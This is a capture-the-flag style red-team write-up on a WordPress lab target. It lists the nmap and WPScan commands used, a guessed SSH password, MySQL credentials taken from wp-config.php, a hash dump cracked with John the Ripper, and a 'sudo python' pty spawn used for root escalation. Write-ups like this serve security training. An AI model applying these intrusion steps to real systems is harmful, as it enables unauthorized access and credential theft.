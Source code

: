 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```

![Nmap Scan Results](/images/nmap%20192_168_1_0.png)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - 22/tcp  open  ssh
  - 80/tcp  open  http
  - 111/tcp open  rpcbind
  - 139/tcp open  netbios-ssn
  - 445/tcp open  microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - WordPress User Enumeration
  - Port 22 open

![wpscan](

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
Target 1
- `flag1: b9bbcb33ellb80be759c4e844862482d`
- Exploit to find users:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`


![WP_Scan](/images/03%20wpscan%201.PNG)
- Logging into Target 1 as user Michael
  - Brute force/guessing Michael's password
  - Weak password too easy
  - Password: michael
- Searching directories for Flag 1
  - SSH and directory traversal
  - flag 1 found in /var/www/html folder in root in service.html in a HTML comment at "End of footer area"
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`


![Flag 01](/images/04%20FLAG%2001.PNG)

- `flag2: fc3fd58dcdad9ab23faca6e9a3e581c`
  - Exploit Used
    - `ssh michael@192.168.1.110` 
    - `pw: michael`
    - `cd ../` 
    - `cd ../`
    - `cd var/www`
    - `ls -l`
    - `cat flag2.txt`


![Flag2](images/05%20FLAG%2002.PNG)

- `flag3: afc01ab56b50591e7dccf93122770cd2`
  - Exploit Used
    - SSH and directory traversal
    - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
    - `show databases;`
    - `use wordpress;` 
    - `show tables;`
    - `select * from wp_posts;`


![Flag 03](/images/06%203%20flag.PNG)

- `flag4: 715dea6c055b9fe3337544932f2941ce`
  - Exploit Used
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
      - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
      - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called hashes.
        - Commands:
          - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1`
          - `show databases;`
          - `use wordpress;`
          - `show tables;`
          - `select * from wp_users;`
    - ![wp_users](/images/08%20wp%20users.png)
      - Now to crack the hashes with John the Ripper:
      - Command:
        - `john hashes`
        - There is no screenshot for this because it took too long to actually crack the hash.
      - Once the password hash was cracked, SSH is the next thing to do.
      - Then, Python was used to escalate to super user.
        - Commands:
          - `ssh steven@192.168.1.110`
          - `pw:pink84`
          - `sudo -l`
          - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
          - `cd /root`
          - `ls`
          - `cat flag4.txt`
    
![Image of Flag 04](/images/07%20FLAG%2004.PNG)
